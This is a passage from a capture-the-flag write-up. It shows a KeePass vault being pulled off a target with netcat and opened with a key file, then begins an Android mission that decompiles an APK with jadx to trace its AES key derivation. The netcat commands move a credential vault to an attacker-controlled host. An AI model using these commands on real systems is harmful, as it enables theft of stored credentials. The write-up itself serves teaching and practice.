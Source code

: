 ```bash
nc -lnv <port> > vault.kdbx
```

Then on the attacking machine, we can run the following command to send the file to our machine :

```bash
nc <your_ip> <port> < vault.kdbx
```

Then we can open the `vault.kdbx` file using KeePass or [KeeWeb](https://app.keeweb.info/). Opening the `vault.kdbx` file with KeePass required either a key file or a password. After trying multiple things, we suceeded with the `logo.jpg` file (which you can also retrieve with `netcat`) that was the required key file to open the vault.

### Getting the flag

After opening the vault with `logo.jpg`, we found the flag stored as a password of one of the entries.

## Mission 5 : Mobile

### Mission Brief and objectives

During an arrest at the home of one of the previously identified attackers, the team seized an old Google tablet used for their communications.
During its analysis, a chat application appears to be encrypted, making access and discovery of its content impossible.

- Analyze the mobile application.
- Access the encrypted information.

### Mobile Application

By installing the APK and by then running the app on an Android device (which I did because it was a CTF, but obviously this is not the first thing you should do when investigating an android application), we got some unencrypted messages alongside encrypted messages that are in the 'Messages on Previous Devices' section.
Each message has its author, its date, and encrypted messages displayed the placeholder text : `[Encrypted] This message was encrypted with old device credentials`.
We then decompiled the APK with `jadx` to get the source code of the application.

### APK Analysis

Running `jadx-gui` on the APK, we searched for the string `[Encrypted] This message was encrypted with old device credentials` to find the class that is responsible for the encryption.
We observed that it belongs to the decryptMessage method of the HomeViewModel class. This method uses the Build.MODEL, Build.BRAND and the hard-coded salt to generate the derived key, decodes the hard-coded Base64 STATIC_IV, and uses AES/CBC/PKCS5Padding initialized with the derived key and the decoded static IV to decrypt the Base64-decoded encryptedMessage, that were received from an external server (thus not hard-coded in the APK).

### Getting the device
